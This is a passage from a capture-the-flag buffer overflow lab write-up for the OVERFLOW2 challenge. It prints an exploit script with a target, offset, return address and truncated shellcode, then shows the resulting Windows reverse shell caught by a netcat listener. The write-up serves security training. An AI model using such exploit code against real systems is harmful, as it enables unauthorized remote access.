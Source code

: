 ```text
ip = "192.168.0.11"
port = 1337

prefix = "OVERFLOW2 "
offset = 634
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload =  b""
payload += b"\xfc\xbb\x43\xca\x8c\x9f\xeb\x0c\x5e\x56\x31\x1e"
payload += b"\xad\x01\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff"
payload += b"\xff\xbf\x22\x0e\x9f\x3f\xb3\x6f\x29\xda\x82\xaf"
<SNIP>
```

Run exploit.py, switch to other console where we have netcat listening on port 1234:

```text
root@kali:/home/kali/thm/bofprep# nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.0.19] from (UNKNOWN) [192.168.0.11] 49973
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Administrator\Desktop>
```

We have our shell. OVERFLOW2 completed.

## Conclusion

For the remaining eight challenges you should be able to simply repeat the steps from above. By the time you've completed this room you really should be ready for your OCSP! Or just be really good at static buffer overflows. Either way this room is a great resource to help you improve you're skills.
